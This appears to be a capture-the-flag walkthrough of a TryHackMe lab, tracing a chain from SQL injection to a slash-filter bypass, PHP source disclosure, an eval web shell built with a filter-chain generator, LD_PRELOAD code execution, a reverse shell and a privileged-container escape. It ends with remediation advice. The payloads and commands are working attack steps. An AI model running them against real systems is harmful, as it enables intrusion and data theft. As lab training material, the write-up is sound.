




# 🌀 Moebius — TryHackMe Technical Walkthrough

> **Professional Penetration Testing Documentation**  
> Author: **Anurag Ravankar**  
> Platform: **TryHackMe**  
> Room: **Moebius**  
> Environment: **Authorized Training Lab**

---

## Executive Summary

This document presents a technical assessment of the **Moebius** room on TryHackMe. The compromise begins with network reconnaissance and web application analysis, identifies SQL injection in the `short_tag` parameter, and uses that primitive to reach arbitrary file disclosure and PHP source-code recovery.

The disclosed application logic exposes the mechanism used to generate HMAC-protected image URLs. The attack chain then leverages PHP stream-filter functionality and the `LD_PRELOAD`/Chankro technique referenced in the supplied material to obtain code execution.

The resulting shell is inside a Docker container. Post-exploitation demonstrates that the container is privileged and can access a host block device. Mounting that device exposes the host filesystem, after which the host-side Docker deployment and MariaDB configuration can be inspected. The final challenge value is intentionally redacted.

> **Flag policy:** Challenge flags are not published. The final value is represented as **[FLAG REDACTED]**.

---

## Table of Contents

1. Lab Overview
2. Assessment Methodology
3. Reconnaissance
4. Web Application Enumeration
5. SQL Injection
6. File Disclosure and PHP Source Analysis
7. Application-Level Code Execution
8. Initial Access
9. Container Security Analysis
10. Host Filesystem Access
11. Database Enumeration
12. Attack Chain Summary
13. Security Findings
14. MITRE ATT&CK Mapping
15. Defensive Recommendations
16. Lessons Learned
17. Conclusion

---

# 1. Lab Overview

| Property | Value |
| --- | --- |
| Platform | TryHackMe |
| Room | Moebius |
| Assessment Type | Black-box CTF assessment |
| Operating System | Linux |
| Primary Web Service | Apache HTTP Server 2.4.62 |
| SSH Service | OpenSSH 8.9p1 |
| Primary Objective | Follow the compromise chain to the protected challenge data |

### Assessment Scope

The supplied evidence covers:

* Network reconnaissance.
* Web application enumeration.
* SQL injection validation.
* Database enumeration.
* Local file disclosure.
* PHP source-code analysis.
* PHP filter-chain execution.
* Reverse-shell access.
* Container capability analysis.
* Host filesystem mounting.
* Docker and MariaDB deployment inspection.

---

# 2. Assessment Methodology

The attack lifecycle was evidence-driven. Each phase provided the information needed to justify the next step.

```text
Reconnaissance
      ↓
Service Enumeration
      ↓
Web Application Analysis
      ↓
SQL Injection
      ↓
Filter Bypass
      ↓
Local File Disclosure
      ↓
PHP Source / Secret Recovery
      ↓
PHP Filter Chain
      ↓
Initial Shell
      ↓
Container Capability Analysis
      ↓
Host Filesystem Mount
      ↓
Host Deployment Enumeration
      ↓
Protected Database Access
```

### Phase Objectives

| Phase | Objective |
| --- | --- |
| Reconnaissance | Identify exposed network services. |
| Web Enumeration | Understand application endpoints and input parameters. |
| Vulnerability Analysis | Validate the SQL injection and determine its capabilities. |
| File Disclosure | Read system and application files. |
| Source Analysis | Recover application logic and security-sensitive configuration. |
| Exploitation | Turn the application weakness into code execution. |
| Post-Exploitation | Determine the shell context and available privileges. |
| Container Analysis | Assess whether isolation boundaries can be crossed. |
| Final Enumeration | Locate the protected challenge data. |

---

# 3. Reconnaissance

## Full TCP Enumeration

The supplied Nmap scan identified the externally reachable services.

```bash
sudo nmap -sS -sV -p- -A 10.10.114.39
```

### Relevant options

* `-sS` — TCP SYN scan.
* `-sV` — service/version detection.
* `-p-` — scan all TCP ports.
* `-A` — enable additional OS and service enumeration.

### Observed Services

| Port | State | Service | Version |
| --- | --- | --- | --- |
| 22/tcp | open | SSH | OpenSSH 8.9p1 |
| 80/tcp | open | HTTP | Apache 2.4.62 (Debian) |

The HTTP service identified itself as **Image Grid** and became the primary attack surface.

<p align="center">

</p>

<p align="center">
<b>Figure 02 — The Image Grid application exposed by the HTTP service.</b>
</p>

### Security Significance

The initial attack surface was small, but the web application accepted user-controlled parameters. That made application-layer input validation the next priority.

---

# 4. Web Application Enumeration

## Endpoint Analysis

The application exposed album functionality through:

```text
/album.php?short_tag=cute
```

The `short_tag` parameter was immediately interesting because its value was inserted into application logic.

Directory enumeration was also performed with FFUF:

```bash
ffuf -u http://TARGET/FUZZ \
     -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt \
     -e .php -ac
```

The supplied results identified the principal PHP endpoints:

```text
index.php
image.php
album.php
```

No additional high-value content was identified by the supplied FFUF output.

---

# 5. SQL Injection

## Vulnerability Discovery

Testing the `short_tag` parameter revealed SQL parsing behavior. An invalid value produced a MariaDB syntax error rather than a normal application response.

<p align="center">

</p>

<p align="center">
<b>Figure 03 — SQL error behavior confirming that user input reaches a database query.</b>
</p>

The supplied sqlmap output subsequently confirmed the parameter as injectable.

```bash
sqlmap "http://TARGET/album.php?short_tag=cute"
```

The parameter was reported with several techniques:

* Boolean-based blind SQL injection.
* Error-based SQL injection.
* Time-based blind SQL injection.
* UNION-based SQL injection.

The UNION technique became particularly useful because it could return attacker-controlled values through the application's response.

---

## Database Enumeration

The available databases were enumerated:

```bash
sqlmap "http://TARGET/album.php?short_tag=cute" --dbs
```

The supplied result identified:

```text
information_schema
web
```

The `web` database was then inspected:

```bash
sqlmap "http://TARGET/album.php?short_tag=cute" -D web --tables
```

The relevant tables were:

```text
albums
images
```

<p align="center">

</p>

<p align="center">
<b>Figure 04 — SQL injection used to enumerate the application database and tables.</b>
</p>

### Interpretation

The database contents primarily described the image application. The more valuable path was to understand how those database records were converted into image URLs.

---

## UNION-Based Manipulation

A UNION payload was used to alter the returned album selection:

```text
moebius' UNION SELECT 0 -- -
```

A broader condition was also demonstrated:

```text
moebius' UNION SELECT 0 or 1=1 -- -
```

The application reflected attacker-controlled content in the resulting HTML.

<p align="center">

</p>

<p align="center">
<b>Figure 05 — UNION-based input changing the application response and confirming practical injection control.</b>
</p>

<p align="center">

</p>

<p align="center">
<b>Figure 06 — UNION-based manipulation reflected through the application's generated HTML.</b>
</p>

A simplified view of the response showed the injected `short_tag` value inside an HTML comment, confirming that the application processed the supplied SQL expression.

---

# 6. File Disclosure and PHP Source Analysis

## Filter Analysis

The application contained a filter rejecting `/` and `;` characters in `short_tag`.

The relevant application logic was:

```php
if (preg_match('/[\/;]/', $_GET['short_tag'])) {
    die("Hacking attempt");
}
```

This is a character blacklist rather than a safe query-construction mechanism.

### Why the filter failed

The SQL parser can represent strings in hexadecimal notation. Therefore, a filesystem path can be expressed without placing `/` directly in the SQL input.

For example:

```text
/etc/passwd
```

was represented as:

```text
0x2F6574632F706173737764
```

The resulting request could therefore avoid the direct slash filter.

---

## Reading `/etc/passwd`

The application was successfully used to retrieve `/etc/passwd`.

<p align="center">

</p>

<p align="center">
<b>Figure 07 — Local file disclosure of `/etc/passwd` through the SQLi-driven file retrieval chain.</b>
</p>

### Security Impact

At this stage the SQL injection had evolved into a local file disclosure primitive. This provided visibility into:

* Local accounts.
* System paths.
* Application source files.
* Runtime configuration.

---

## Understanding `image.php`

The recovered application logic showed that images were referenced through:

```text
/image.php?hash=<HMAC>&path=<path>
```

The application generated the hash using:

```php
$hash = hash_hmac('sha256', $path, $SECRET_KEY);
```

The important observation was that the URL did not merely contain a filename. It contained a path protected by an HMAC generated from an application secret.

The PHP configuration recovered through source disclosure contained the database connection settings and the application secret. Those values are intentionally redacted in this public documentation.

---

## PHP Source Disclosure

The file retrieval primitive was combined with the PHP stream wrapper:

```text
php://filter/read=convert.base64-encode/resource=/var/www/html/index.php
```

The resulting content could be decoded locally to recover PHP source.

The supplied evidence included the application files:

* `index.php`
* `album.php`
* `dbconfig.php`

<p align="center">

</p>

<p align="center">
<b>Figure 08 — Image retrieval endpoint behavior used during source and path analysis.</b>
</p>

This was a major escalation in information quality because source code exposed the exact database queries, filtering logic, HMAC construction, and application configuration.

---

# 7. Application-Level Code Execution

## PHP Filter Chain

The supplied material used the PHP filter-chain generator to construct a stream transformation chain around:

```php
<?php eval($_REQUEST[0]);?>
```

The generator invocation was:

```bash
python3 php_filter_chain_generator/php_filter_chain_generator.py \
  --chain '<?php eval($_REQUEST[0]);?>'
```

The supplied evidence also showed an execution attempt producing:

```text
Fatal error: Uncaught Error: Call to undefined function system()
```

<p align="center">

</p>

<p align="center">
<b>Figure 09 — Filter-chain execution reached PHP but encountered a disabled system function.</b>
</p>

### Interpretation

The failure was useful reconnaissance. It demonstrated that:

1. The PHP filter-chain path was being processed.
2. Direct execution functions such as `system()` were disabled.
3. A different execution primitive was required.

The source material therefore moved to an `LD_PRELOAD`-based technique.

---

## `LD_PRELOAD` Execution Path

The supplied technique compiled a shared object:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

The target-side PHP code retrieved the shared object and attempted to load it with:

```php
putenv('LD_PRELOAD=/tmp/shell.so');
mail('a','a','a','a');
```

This technique relies on the dynamic loader honoring `LD_PRELOAD` for a process launched through a suitable external binary. The source material identifies this workflow with the Chankro technique.

> **Evidence boundary:** The exact contents of `shell.c` were not supplied in the source material, so they are not reconstructed here.

---

# 8. Initial Access

The supplied evidence confirms a reverse shell connection to the web container.

```text
Listening on [any] 4444 ...
connect to [10.11.134.137] from (UNKNOWN) [10.10.177.162] 46420
```

The resulting shell identified the process as:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data),27(sudo)
```

<p align="center">

</p>

<p align="center">
<b>Figure 10 — Initial shell obtained as `www-data` inside the web container.</b>
</p>

### Security Significance

The initial shell was not host root. The next task was therefore to determine the isolation boundary and the privileges granted to the containerized web process.

---

# 9. Container Security Analysis

## Capability Enumeration

The supplied post-exploitation output showed:

```bash
grep CapEff /proc/self/status
```

with:

```text
CapEff: 000001ffffffffff
```

The unusually broad effective capability set was a strong indicator that the container was running with elevated privileges.

The shell also identified the container hostname:

```text
bb28d5969dd5
```

and showed the web application under:

```text
/var/www/html
```

---

## Privileged Container Confirmation

The source material later recovered the Docker Compose configuration:

```yaml
services:
  web:
    platform: linux/amd64
    build: ./web
    ports:
      - "80:80"
    restart: always
    privileged: true
```

The `privileged: true` setting is the critical deployment weakness.

A privileged container receives substantially broader access to host resources than a normal application container. In this challenge, that access was sufficient to reach a host block device.

---

# 10. Host Filesystem Access

<p align="center">

</p>

<p align="center">
<b>Figure 11 — Container filesystem and post-exploitation environment evidence supporting the host-boundary analysis.</b>
</p>

The supplied shell mounted the host partition:

```bash
mkdir -p /mnt/tmp3
mount /dev/nvme0n1p1 /mnt/tmp3
```

The resulting filesystem contained a complete Linux root hierarchy:

```text
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
```

The evidence then accessed the host-side `/root` directory.


> The room screenshot above is included as contextual evidence. The exact mount and host-enumeration commands are documented from the supplied textual source rather than represented as a fabricated terminal capture.

### Root Cause

The container was not treated as an isolated application sandbox. The privileged configuration allowed the web process to access host storage resources.

### Security Impact

An attacker who gains code execution in the web container can potentially access:

* Host filesystem data.
* Host configuration.
* Docker deployment files.
* Host credentials and secrets.
* Other service configuration.
* Challenge data outside the container.

This is effectively a container-to-host boundary failure.

---

# 11. Host Deployment and Database Enumeration

After host filesystem access, the supplied material enumerated Docker containers:

```bash
docker ps -a
```

The environment contained:

```text
challenge-db-1
challenge-web-1
```

The recovered Compose file showed:

```yaml
web:
  ports:
    - "80:80"
  privileged: true

db:
  image: mariadb:10.11.11-jammy
  volumes:
    - "./db:/docker-entrypoint-initdb.d:ro"
  env_file:
    - ./db/db.env
```

The database environment file contained a database username and password. Because this is a public portfolio repository, the actual CTF credential is redacted:

```text
MYSQL_PASSWORD=[CTF CREDENTIAL REDACTED]
MYSQL_DATABASE=web
MYSQL_USER=web
MYSQL_ROOT_PASSWORD=[CTF CREDENTIAL REDACTED]
```

The source material then authenticated to MariaDB as the database root user using the recovered CTF credential and identified:

```text
information_schema
mysql
performance_schema
secret
sys
web
```

The `secret` database contained a `secrets` table.

The final challenge value is intentionally omitted:

```text
[FLAG REDACTED]
```

### Security Significance

The database was not reached through a direct remote database exploit. The important transition was:

```text
Web RCE
   ↓
Privileged Container
   ↓
Host Filesystem
   ↓
Docker Deployment Files
   ↓
Database Credentials
   ↓
Protected Database
```

This demonstrates why infrastructure configuration and container privileges must be considered part of the attack surface.

---

# 12. Attack Chain Summary

```text
Internet
   │
   ▼
Apache / Image Grid
   │
   ▼
album.php?short_tag=
   │
   ▼
SQL Injection
   │
   ├── Database Enumeration
   │
   └── UNION Manipulation
          │
          ▼
     File Disclosure
          │
          ▼
     PHP Source Review
          │
          ├── HMAC Logic
          ├── Database Configuration
          └── PHP Filter Primitive
                  │
                  ▼
            Application RCE
                  │
                  ▼
             www-data Shell
                  │
                  ▼
          Privileged Container
                  │
                  ▼
        Host Block Device Access
                  │
                  ▼
          Host Filesystem Mount
                  │
                  ▼
        Docker/DB Configuration
                  │
                  ▼
          Protected DB Access
                  │
                  ▼
          [FLAG REDACTED]
```

---

# 13. Security Findings

## Finding 1 — SQL Injection in `short_tag`

**Severity:** High

**Issue:**  
The `short_tag` value was concatenated into a SQL statement rather than being safely parameterized.

**Root Cause:**  
Dynamic SQL construction using attacker-controlled input.

**Evidence:**  
The application returned MariaDB syntax errors and sqlmap confirmed boolean, error, time-based, and UNION injection techniques.

**Impact:**  
Database enumeration and manipulation became possible, and the injection was chained into file disclosure.

**Remediation:**

* Use PDO prepared statements with bound parameters.
* Avoid string concatenation for SQL statements.
* Apply server-side input validation as a secondary control.
* Return generic errors to clients.

---

## Finding 2 — Arbitrary File Disclosure

**Severity:** High

**Issue:**  
The SQL injection could be combined with the image retrieval functionality to retrieve local files.

**Root Cause:**  
The application trusted a user-influenced path and relied on a character blacklist.

**Evidence:**  
`/etc/passwd` and application PHP source were recovered.

**Impact:**  
Sensitive system and application information became available to an unauthenticated attacker.

**Remediation:**

* Use opaque application-side image identifiers.
* Never accept arbitrary filesystem paths from users.
* Enforce canonical-path validation and allowlists.
* Store user-facing media outside sensitive application paths.

---

## Finding 3 — Application Secret Exposure

**Severity:** High

**Issue:**  
The application secret used to generate HMAC values was present in application configuration that became readable through source disclosure.

**Root Cause:**  
Secrets were embedded in application-accessible configuration.

**Impact:**  
An attacker who obtained source/configuration could generate valid integrity values for protected application resources.

**Remediation:**

* Store secrets outside web-accessible application paths.
* Use environment-backed secret management.
* Rotate secrets after exposure.
* Apply least privilege to configuration files.

---

## Finding 4 — PHP Filter-Chain / Code-Execution Path

**Severity:** Critical

**Issue:**  
The file-read primitive could be combined with PHP stream-filter functionality and an `LD_PRELOAD` execution technique.

**Root Cause:**  
Attacker-controlled file-processing behavior was allowed to reach dangerous PHP functionality.

**Impact:**  
Application-level code execution and a reverse shell were obtained.

**Remediation:**

* Remove attacker control over filesystem paths.
* Harden PHP stream-wrapper usage.
* Avoid dynamic evaluation.
* Disable unnecessary dangerous PHP capabilities.
* Run the application under a dedicated least-privilege account.
* Apply defense-in-depth controls around outbound execution.

---

## Finding 5 — Privileged Docker Container

**Severity:** Critical

**Issue:**  
The web service was deployed with:

```yaml
privileged: true
```

**Root Cause:**  
The application container was granted excessive host-level privileges.

**Impact:**  
Container compromise could be extended into host filesystem access.

**Remediation:**

* Do not use `privileged: true` for web applications.
* Drop Linux capabilities by default.
* Apply a restrictive seccomp/AppArmor profile.
* Use read-only filesystems where practical.
* Restrict device access.
* Separate application and host administration boundaries.

---

## Finding 6 — Host Block Device Exposure

**Severity:** Critical

**Issue:**  
The compromised container could access and mount a host block device.

**Impact:**  
The attacker obtained access to the host filesystem and infrastructure configuration.

**Remediation:**

* Prevent application containers from accessing host block devices.
* Apply device cgroup restrictions.
* Enforce least privilege.
* Monitor unusual mount operations.
* Treat host storage as a protected trust boundary.

---

## Finding 7 — Plaintext Database Credentials in Deployment Files

**Severity:** High

**Issue:**  
Database credentials were stored in a deployment environment file.

**Impact:**  
Once host filesystem access was obtained, database credentials could be recovered and used to inspect protected data.

**Remediation:**

* Use Docker/Orchestrator secrets.
* Avoid committing or exposing plaintext credentials.
* Rotate credentials after compromise.
* Restrict configuration-file permissions.
* Monitor access to deployment secrets.

---

# 14. MITRE ATT&CK Mapping

| Tactic | Technique | Application to Moebius |
| --- | --- | --- |
| Initial Access | **T1190 — Exploit Public-Facing Application** | SQL injection against the exposed web application |
| Credential Access | **T1552.001 — Credentials In Files** | Credentials recovered from deployment configuration |
| Discovery | **T1083 — File and Directory Discovery** | Container and host filesystem enumeration |
| Execution | **T1059.004 — Unix Shell** | Shell access following application exploitation |
| Privilege Escalation / Defense Evasion | **T1611 — Escape to Host** | Privileged container allowed host-boundary traversal |

---

# 15. Defensive Recommendations

## Web Application

* Replace dynamic SQL with prepared statements.
* Remove arbitrary filesystem paths from user-controlled parameters.
* Use allowlisted image IDs.
* Return generic database errors.
* Keep application secrets outside the web-accessible source tree.

## PHP Runtime

* Remove unnecessary dangerous execution functionality.
* Review enabled stream wrappers.
* Disable dynamic code evaluation patterns.
* Keep PHP updated and apply secure runtime configuration.
* Run the web process with minimal filesystem and process privileges.

## Container Security

* Remove `privileged: true`.
* Drop unnecessary Linux capabilities.
* Restrict `/dev` access.
* Prevent host block-device access.
* Apply seccomp and AppArmor/SELinux controls where available.
* Use a dedicated non-root application identity.
* Consider read-only root filesystems for stateless web workloads.

## Secrets Management

* Move database credentials to a secrets manager.
* Rotate credentials after exposure.
* Restrict configuration-file permissions.
* Avoid storing root database credentials in application deployment files.

## Monitoring and Detection

Monitor for:

* Unexpected SQL errors.
* Repeated malformed requests to `album.php`.
* Attempts to access `php://` stream wrappers.
* Unusual filesystem reads by the web process.
* Web processes invoking external binaries.
* `mount` operations from application containers.
* Access to host block devices.
* Unexpected Docker API or daemon activity.
* Database authentication from unexpected processes.

---

# 16. Lessons Learned

### Enumeration

The most important discovery was not the first vulnerability itself, but how one primitive could expose progressively more useful information.

### Input Validation

Character blacklists are fragile. Security controls should constrain the underlying operation rather than attempt to block a small set of dangerous characters.

### Source-Code Disclosure

Reading application source can reveal the exact trust boundaries, query construction, secrets, and security assumptions that are invisible from normal browser behavior.

### Container Security

A container should not be treated as a strong security boundary when it is granted host-level privileges.

### Infrastructure Configuration

Docker Compose files and environment files can contain credentials and security-critical deployment decisions. They require the same protection as application source.

### Reporting

A useful penetration-testing report explains not only how access was obtained, but why each transition was possible and how the chain could be broken.

---

# 17. Conclusion

The Moebius attack chain demonstrates a complete progression from a public web application to protected infrastructure data.

The initial SQL injection provided the first meaningful control over application behavior. That weakness was chained into local file disclosure, PHP source analysis, recovery of security-sensitive configuration, and application-level code execution. The resulting shell was contained within a Docker environment, but the container was configured with excessive privileges. Access to a host block device then defeated the intended isolation boundary and exposed host deployment and database configuration.

The key defensive lesson is that the final compromise was not caused by one isolated defect. It resulted from a sequence of weaknesses:

```text
Unsafe SQL Construction
        +
Arbitrary File Access
        +
Application Secret Exposure
        +
Dangerous PHP Execution Path
        +
Privileged Container
        +
Host Device Access
        =
Complete Environment Compromise
```

The strongest remediation strategy is therefore layered: parameterized queries, strict filesystem boundaries, secure secret management, hardened PHP execution, least-privilege containers, device isolation, and monitoring for cross-boundary activity.

> **Final challenge value:** [FLAG REDACTED]

---

> **Disclaimer:** This documentation was created for an authorized TryHackMe training environment. Challenge flags and sensitive CTF credentials are intentionally redacted.
